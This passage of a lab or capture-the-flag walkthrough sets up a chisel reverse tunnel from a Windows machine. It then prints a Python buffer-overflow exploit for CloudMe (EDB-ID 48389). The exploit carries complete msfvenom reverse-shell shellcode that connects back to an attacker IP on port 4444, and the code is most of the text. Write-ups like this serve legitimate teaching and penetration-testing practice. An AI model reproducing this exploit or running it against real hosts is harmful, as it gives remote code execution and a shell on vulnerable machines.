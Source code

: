 This set up a `chisel` server listening at `9999/tcp` on all interfaces, and allow the client to specify reverse port forwarding remotes.

#### On the remote machine

I need to send a copy of the `chisel` [binary](https://github.com/jpillora/chisel/releases/download/v1.6.0/chisel_1.6.0_windows_amd64.gz) for Windows over, similar to how I transfer `nc.exe` over. Run the following command:

```
C:\Users\shaun\Downloads> start chisel client 10.10.16.23:9999 R:8888:127.0.0.1:8888
```

You should see something like this on your server.

{% include image.html image_alt="5082bd14.png" image_src="/50a54b87-e758-42bc-8b5a-1b8e183b1ef7/5082bd14.png" %}

#### Exploit

I ran exploit EDB-ID [48389](https://www.exploit-db.com/exploits/48389) with the following `msfvenom` payload.

<div class="filename"><span>cloudme.py</span></div>

```python
import socket

target = "127.0.0.1"

padding1   = b"\x90" * 1052
EIP        = b"\xB5\x42\xA8\x68" # 0x68A842B5 -> PUSH ESP, RET
NOPS       = b"\x90" * 30

# msfvenom -p windows/shell_reverse_tcp LHOST=10.10.16.23 LPORT=4444 -b '\x00\x0a\x0d' -f python
payload =  b""
payload += b"\xba\xcb\xa7\xa2\x1b\xd9\xc5\xd9\x74\x24\xf4\x5e\x31"
payload += b"\xc9\xb1\x52\x31\x56\x12\x83\xee\xfc\x03\x9d\xa9\x40"
payload += b"\xee\xdd\x5e\x06\x11\x1d\x9f\x67\x9b\xf8\xae\xa7\xff"
payload += b"\x89\x81\x17\x8b\xdf\x2d\xd3\xd9\xcb\xa6\x91\xf5\xfc"
payload += b"\x0f\x1f\x20\x33\x8f\x0c\x10\x52\x13\x4f\x45\xb4\x2a"
payload += b"\x80\x98\xb5\x6b\xfd\x51\xe7\x24\x89\xc4\x17\x40\xc7"
payload += b"\xd4\x9c\x1a\xc9\x5c\x41\xea\xe8\x4d\xd4\x60\xb3\x4d"
payload += b"\xd7\xa5\xcf\xc7\xcf\xaa\xea\x9e\x64\x18\x80\x20\xac"
payload += b"\x50\x69\x8e\x91\x5c\x98\xce\xd6\x5b\x43\xa5\x2e\x98"
payload += b"\xfe\xbe\xf5\xe2\x24\x4a\xed\x45\xae\xec\xc9\x74\x63"
payload += b"\x6a\x9a\x7b\xc8\xf8\xc4\x9f\xcf\x2d\x7f\x9b\x44\xd0"
payload += b"\xaf\x2d\x1e\xf7\x6b\x75\xc4\x96\x2a\xd3\xab\xa7\x2c"
payload += b"\xbc\x14\x02\x27\x51\x40\x3f\x6a\x3e\xa5\x72\x94\xbe"
payload += b"\xa1\x05\xe7\x8c\x6e\xbe\x6f\xbd\xe7\x18\x68\xc2\xdd"
payload += b"\xdd\xe6\x3d\xde\x1d\x2f\xfa\x8a\x4d\x47\x2b\xb3\x05"
payload += b"\x97\xd4\x66\x89\xc7\x7a\xd9\x6a\xb7\x3a\x89\x02\xdd"
payload += b"\xb4\xf6\x33\xde\x1e\x9f\xde\x25\xc9\xaa\x14\x35\x1e"
payload += b"\xc3\x2a\x35\x31\x4f\xa2\xd3\x5b\x7f\xe2\x4c\xf4\xe6"
payload += b"\xaf\x06\x65\xe6\x65\x63\xa5\x6c\x8a\x94\x68\x85\xe7"
payload += b"\x86\x1d\x65\xb2\xf4\x88\x7a\x68\x90\x57\xe8\xf7\x60"
payload += b"\x11\x11\xa0\x37\x76\xe7\xb9\xdd\x6a\x5e\x10\xc3\x76"
payload += b"\x06\x5b\x47\xad\xfb\x62\x46\x20\x47\x41\x58\xfc\x48"
payload += b"\xcd\x0c\x50\x1f\x9b\xfa\x16\xc9\x6d\x54\xc1\xa6\x27"
payload += b"\x30\x94\x84\xf7\x46\x99\xc0\x81\xa6\x28\xbd\xd7\xd9"
payload += b"\x85\x29\xd0\xa2\xfb\xc9\x1f\x79\xb8\xfa\x55\x23\xe9"
payload += b"\x92\x33\xb6\xab\xfe\xc3\x6d\xef\x06\x40\x87\x90\xfc"
payload += b"\x58\xe2\x95\xb9\xde\x1f\xe4\xd2\x8a\x1f\x5b\xd2\x9e"

overrun    = b"C" * (1500 - len(padding1 + NOPS + EIP + payload))

foo = padding1 + EIP + NOPS + payload + overrun
```